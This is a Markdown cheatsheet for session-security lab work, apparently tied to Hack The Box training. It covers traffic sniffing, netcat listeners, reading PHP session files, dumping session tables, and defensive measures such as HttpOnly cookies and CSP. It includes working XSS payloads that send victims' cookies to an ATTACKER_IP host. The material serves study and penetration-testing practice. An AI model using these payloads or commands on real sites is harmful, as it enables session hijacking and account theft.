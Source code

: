 # Session Security Commands Cheatsheet

## Network Configuration
```bash
# Add vhosts to /etc/hosts file
IP=ENTER_SPAWNED_TARGET_IP_HERE
printf "%s\t%s\n\n" "$IP" "xss.htb.net csrf.htb.net oredirect.htb.net minilab.htb.net" | sudo tee -a /etc/hosts
```

## Traffic Sniffing with Wireshark
```bash
# Start Wireshark
sudo -E wireshark

# Filter for HTTP traffic only (apply in Wireshark)
http
```

## Netcat for Session Capture
```bash
# Listen on port for incoming connections
nc -nlvp 8000

# Alternative port
nc -lvnp 1337
```

## Hash Generation for CSRF Testing
```bash
# Generate MD5 hash of username
echo -n "username" | md5sum
```

## PHP Session Information
```bash
# Locate PHP configuration files
locate php.ini

# Check session save path in PHP config
cat /etc/php/7.4/cli/php.ini | grep 'session.save_path'
cat /etc/php/7.4/apache2/php.ini | grep 'session.save_path'

# View PHP session files (typically in /var/lib/php/sessions)
ls /var/lib/php/sessions
cat /var/lib/php/sessions/sess_<sessionID>
```

## HTTP Server for Payloads
```bash
# Start PHP development server
php -S <VPN/TUN_Adapter_IP>:8000

# Start Python HTTP server
python -m http.server 1337
```

## Database Session Extraction
```sql
-- Basic database enumeration
SHOW DATABASES;
USE project;
SHOW TABLES;

-- Extract user sessions
SELECT * FROM all_sessions;
SELECT * FROM all_sessions WHERE id=3;
```

## Burp Suite
```bash
# Start Burp Suite
burpsuite
```

## XSS Payloads (Examples)
```javascript
// Basic XSS test
"><img src=x onerror=prompt(document.domain)>

// Cookie stealing with redirect
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://ATTACKER_IP:8000/log.php?c=' + document.cookie;"></video>

// Cookie stealing with fetch (stealthier)
<script>fetch(`http://ATTACKER_IP:8000?cookie=${btoa(document.cookie)}`)</script>

// Mouse hover trigger
<h1 onmouseover='document.write(`<img src="http://ATTACKER_IP:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

## Session Management Code Examples

### PHP Session Regeneration
```php
// Regenerate session ID to prevent fixation
session_regenerate_id(bool $delete_old_session = false): bool
```

### Java Session Management
```java
// Invalidate and create new session
session.invalidate();
session = request.getSession(true);
```

### .NET Session Management
```asp
// Abandon session (note: additional steps needed for complete protection)
Session.Abandon();
```

## Cookie Security Headers
```http
# HTTPOnly cookie (prevents XSS access)
Set-Cookie: sessionid=abc123; HttpOnly

# SameSite cookie (CSRF protection)
Set-Cookie: sessionid=abc123; SameSite=Strict
```

## Content Security Policy
```http
# Basic CSP header
Content-Security-Policy: default-src 'self'
```
